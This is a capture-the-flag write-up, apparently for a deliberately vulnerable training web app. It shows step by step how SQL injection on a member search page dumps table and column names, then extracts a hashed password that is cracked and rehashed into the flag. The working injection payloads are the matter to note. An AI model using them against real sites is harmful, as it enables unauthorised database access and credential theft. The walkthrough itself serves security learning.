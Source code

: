 # Resolve

Go to {url}/?page=member
Fill the form with http://172.21.12.132/?page=member
1 OR 1=1 and submit (page=member&id=1+OR+1%3D1&Submit=Submit#)
It will show all users and we are sure about the vulnerability

Now, we will get all columns and tables from DB
1 UNION SELECT table_name, column_name FROM information_schema.columns

Table name:

- users

Columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

With this cmd, we will identify the id wanted
1 UNION SELECT 1, user_id FROM users

We will parse all columns and find what we need

5 UNION SELECT town, country FROM users where user_id = 5
UNION SELECT planet, Commentaire FROM users where user_id = 5
UNION SELECT countersign, 1 FROM users where user_id = 5

Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign: 5ff9d0165b4f92b14994e5c685cdce28

countersign->md5->lower->sha256->flag

# Resources

https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection
https://www.dcode.fr/md5-hash
https://www.dcode.fr/sha256-hash
